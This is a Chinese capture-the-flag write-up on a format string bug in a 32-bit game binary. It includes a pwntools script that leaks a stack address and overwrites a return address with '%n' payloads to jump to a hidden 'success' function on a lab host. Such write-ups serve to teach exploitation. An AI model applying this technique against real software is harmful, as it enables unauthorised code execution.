




# Pwn-格式化字符串

## 题意

给你一个`pwn.elf`

## 题解

首先checksec，是32位的一个程序，只有地址写死这一条有效信息


IDA32反编译后发现是一个游戏，简单查看各个函数的信息，发现在talk里出现溢出，talk函数刚读进一个16长度字符数组以后接着就打印输出，存在明显格式化字符串漏洞



然后利用动态编译，由于我IDA32在Win系统下没有本地编译选项，遂直接参考参考材料，说是在080496A0地址这里打一个断点，详情参考文末材料，然后搭配下面代码直接得到flag



```python
from pwn import *

elf = ELF('./pwn.elf')
p = remote('172.17.0.13',10180)
 
def att():
	p.sendlineafter(b'Your choice: ', b'1')
	
def cd():
	p.sendlineafter(b'Your choice: ', b'2')
	
def talk(con):
	p.sendlineafter(b'Your choice: ', b'3')
	p.sendafter(b'talk: ',con)
	
# str offset starts at 7
talk(b'%22$p')
p.recvuntil('0x')
addr = int(p.recv(8), 16)
addr += 4
print(hex(addr))
 
backdoor = elf.sym['success']
for i in range(4):
	payload = b'%' + str((backdoor >> (8 * i)) & 0xff).encode() + b'c%10$n'
	payload = payload.ljust(12, b'a')
	payload += p32(addr + i)
	talk(payload)
 
#gdb.attach(p)
#time.sleep(3)
 
p.interactive()
```

## 参考资料

[参考](https://blog.csdn.net/qq_52161487/article/details/144638551)